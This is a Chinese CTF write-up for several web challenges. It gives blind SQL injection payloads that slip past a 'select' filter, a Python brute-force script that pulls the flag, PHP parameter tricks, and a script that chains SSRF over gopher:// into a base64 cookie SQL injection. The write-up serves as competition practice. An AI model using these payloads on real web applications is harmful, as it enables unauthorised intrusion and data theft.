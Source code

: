 # easy_sql_2

登录功能，post传username和password。尝试admin,admin弱口令登录成功但是提示flag并不在这里。

username尝试`-1'||'1'%23`发现是password error!，因此猜测后端的应该是根据传入的username查出对应的password，查到了就不再是username error!，然后讲传入的password进行一次md5后与这个password比较，相同就登录成功。

尝试SQL注入，但是ban了select，因此利用table注入。

数据库名的话很好注入，直接不用table用regexp也可以注出是ctf了，然后开始注表名。

虽然过滤了tables，但是columns没有过滤，可以利用informaion_schema.columns来盲注出表名：

```sql
-1'||(('def','ctf','fl11aag','','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<(table/**/information_schema.columns/**/limit/**/3,1))#
```

按位一次爆破即可得到`fl11aag`，列名的话不重要就不爆了。

然后就是爆内容，经过测试只有一列，但是却有2行数据，第一行数据是假flag：

```sql
-1'||((binary/**/{})<(table/**/ctf.fl11aag/**/limit/**/1,1))#
```

写个脚本爆破即可，脚本没有对最后一位进行处理，爆出结果后手动改一下即可：

```python
import requests
import string
from time import sleep

def strtohex(s):
    ss = "0x"
    for i in s:
        ss +=  str(hex(ord(i))).replace("0x",'')
    return ss
url="http://182.116.62.85:26571/login.php"

flag="flag{"
for i in range(10000):
    #for j in ".-0123456789abcdefghijklmnopqrstuvwxyz0123456789{|}~":
    for j in range(19,128):
        #payload="-1'||(('def','ctf','fl11aag','{}','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<(table/**/information_schema.columns/**/limit/**/3,1))#".format(flag+j)
        payload="-1'||((binary/**/{})<(table/**/ctf.fl11aag/**/limit/**/1,1))#".format(strtohex(flag+chr(j)))
        data={
            "username":payload,
            "password":"1"
        }

        r=requests.post(url=url,data=data)
        #print(r.text)
        if "username" in r.text and "try" not in r.text:
            #print(r.text)
            #print(payload)
            #print(j)
            flag+=chr(j-1)
            print(flag)
            break

```





# middle_magic

一血，没啥好说的。。。。考了一遍又一遍的trick。

```
?aaa=%0apass_the_level_1%23

admin[]=1&root_pwd[]=2&level_3={"result":0}
```





# easy_sql_1

一血，很简单的套娃题，但是是做出来最少的Web。。感觉是那个注入点太阴间了。

老登录界面，说不是inner所以不行，f12看到use.php，进去有个ssrf，利用gopher协议打post然后adminadmin登录后发现给了cookie:`this_is_your_cookie=YWRtaW4=`，把cookie带上

再经过一些尝试发现post没什么回显，尝试cookie是不是可以注入，将`admin'`base64加密后填上去再访问，直接SQL语句报错，用的sqli-labs的库，直接报错注出flag即可：

```python
import requests
from urllib.parse import quote

data="""POST / HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Cookie: this_is_your_cookie=LTEnKXx8dXBkYXRleG1sKDEsY29uY2F0KDEsKHNlbGVjdCBncm91cF9jb25jYXQoZmxhZykgZnJvbSBmbGFnKSwxKSwxKSM=;PHPSESSID=susn9dj4f1806v0pl5oiureek1;
Content-Length: {}

{}
"""
payload="uname=admin&passwd=admin"
length=len(payload)
data=data.format(length,payload)
data=quote(data,'utf-8')
url="http://182.116.62.85:28303/use.php"
params={
    'url':"gopher://127.0.0.1:80/_"+data
}
headers={
    'Cookie':"PHPSESSID=8t4ppbs8ek3l5v5estgbttqtu3"
}

r=requests.get(url,params=params,headers=headers)
print(r.text)
```





# EasyP

原题魔改，参考连接：https://www.gem-love.com/ctf/1898.html

直接打：`http://182.116.62.85:21895/index.php/utils.php/%81?show[source`





# Spring

XMAN的原题。。。

参考文章：http://blog.cyberpeace.cn/Spring-Web-Flow/

照着打就行。。。

![image-20211008170703255](鹤城杯201-Web.assets/image-20211008170703255.png)